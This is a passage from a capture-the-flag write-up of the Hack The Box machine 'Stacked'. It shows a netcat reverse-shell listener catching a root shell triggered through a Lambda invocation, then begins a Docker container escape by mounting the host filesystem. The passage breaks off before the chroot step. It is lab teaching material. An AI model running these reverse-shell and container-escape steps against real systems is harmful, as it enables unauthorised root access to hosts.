 Start a reverse shell listener.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
```

Invoke the Lambda function.

```bash
$ aws --endpoint-url=http://s3-testing.stacked.htb lambda invoke --function-name tgihf output

```

Receive the reverse shell as `root`.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.61] from (UNKNOWN) [10.129.140.210] 35956
bash: cannot set terminal process group (11190): Not a tty
bash: no job control in this shell
bash-5.0# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

---

## Container Escape

As `root` within the Docker container, it is possible to execute `docker` without `sudo`. According to [GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell), this makes it possible to escape the container by creating another container who mounts the host's root directory (`/`) within the container and changes the container's root directory to the mounted host root directory.

Spin up such a container using one of the images already on the system (ID 0601ea177088).

```bash
bash-5.0# docker image ls
REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
localstack/localstack-full   0.12.6              7085b5de9f7c        8 months ago        888MB
localstack/localstack-full   <none>              0601ea177088        13 months ago       882MB
lambci/lambda                nodejs12.x          22a4ada8399c        13 months ago       390MB
lambci/lambda                nodejs10.x          db93be728e7b        13 months ago       385MB
lambci/lambda                nodejs8.10          5754fee26e6e        13 months ago       813MB

bash-5.0# docker run -d -v /:/mnt --rm -it 0601ea177088 sh
8f3978eb999f257726ce3d61786dded92f2ce84d88d76e3ea5ace4d4ceb4f2aa
```

With the container spun up, retrieve its container ID and execute the `chroot` command to change the container's root directory to the host's root directory. Then drop into a shell. This escapes the container, granting access to the host as `root`. Read the system flag at `/root/root.txt`.

```bash
bash-5.0# docker ps -a
CONTAINER ID        IMAGE                               COMMAND                  CREATED             STATUS                      PORTS                                                                                                  NAMES
8f3978eb999f        0601ea177088                        "docker-entrypoint..."   4 seconds ago       Up 3 seconds                4566/tcp, 4571/tcp, 8080/tcp                                                                           peaceful_black
e7bb9925eddd        localstack/localstack-full:0.12.6   "docker-entrypoint.sh"   2 hours ago         Up 2 hours                  127.0.0.1:443->443/tcp, 127.0.0.1:4566->4566/tcp, 127.0.0.1:4571->4571/tcp, 127.0.0.1:8080->8080/tcp   localstack_main
```